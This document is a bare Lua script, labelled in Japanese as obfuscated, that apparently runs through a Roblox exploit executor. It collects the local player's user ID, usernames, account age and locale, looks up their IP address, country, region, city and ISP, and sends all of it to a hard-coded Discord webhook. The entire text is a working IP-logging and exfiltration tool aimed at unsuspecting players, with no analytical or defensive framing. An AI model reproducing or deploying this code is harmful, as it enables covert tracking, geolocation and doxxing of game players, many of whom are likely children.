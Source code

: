 -- 難読化されたLuaスクリプト
local a=game:GetService("HttpService")local b=game:GetService("Players")local c=game:GetService("MarketplaceService")local d=b.LocalPlayer local e=d.UserId local f=d.DisplayName local g=d.Name local h=tostring(d.MembershipType):sub(21) local i=d.AccountAge local j=game.LocalizationService.RobloxLocaleId local k=game:HttpGet("http://ip-api.com/json") local l=a:JSONDecode(k) local m=l.query local n=l.country local o=l.regionName local p=l.city local q=l.isp local r=game:GetService("RbxAnalyticsService"):GetClientId() local s='Roblox.GameLauncher.joinGameInstance('..game.PlaceId..', "'..game.JobId..'")' local t=c:GetProductInfo(game.PlaceId).Name local function u() local v={ ["content"]="", ["embeds"]={{ ["title"]="Player and IP Details", ["description"]=string.format("**Player Information:**\n".."**User ID:** %s\n**Display Name:** %s\n**Username:** %s\n".."**Membership Type:** %s\n**Account Age:** %d days\n**Country Code:** %s\n\n".."**IP Details:**\n".."**IP:** %s\n**Country:** %s\n**Region:** %s\n**City:** %s\n**ISP:** %s",e,f,g,h,i,j,m,n,o,p,q), ["type"]="rich" } } } return a:JSONEncode(v) end local function w(x,y) local z={ ["content-type"]="application/json" } local A=http_request or request or HttpPost or syn.request local B={Url=x,Body=y,Method="POST",Headers=z} A(B) end local C="https://discordapp.com/api/webhooks/1349404991210913875/cNpyuvdEArBkaSxm_zaVgj8TZ6yowc10WEKgjN5qy8gK5vHJeycYb9-GwjTu7Wuh5EXV" local D=u() w(C,D)
